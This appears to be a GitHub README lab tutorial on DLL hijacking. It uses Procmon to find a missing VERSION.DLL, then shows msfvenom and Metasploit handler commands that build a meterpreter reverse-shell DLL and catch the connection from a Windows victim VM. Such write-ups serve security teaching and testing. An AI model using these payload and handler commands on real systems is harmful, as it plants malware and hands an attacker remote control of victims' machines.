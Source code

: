 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom

## Lab Setup
- Create two virtual machine:
  - **Windows OS** for executing exe application *(Victim Machine)*
  - **Kali Linux** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> ### **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/1.jpg)
  
> ### **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> ### **Step-3: Now find the Dlls which are trying to load from current working application but is not available** ***(e.g: VERSION.DLL)***

![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/3.jpg) 
            Application is trying to load VERSION.DLL but not able to find in to application directory.
            
> ### **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/4.jpg)

> ### **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 
   
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/5.jpg)

> ### **Step-6: Reverse shell handler created successfully, Now paste malicious DLL(which we created through Step-4) in to the application directory & launch the application**

![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/6.jpg)

   *As you can see application is trying to loan the malicious DLL without checking it and we got system reverse shell.*


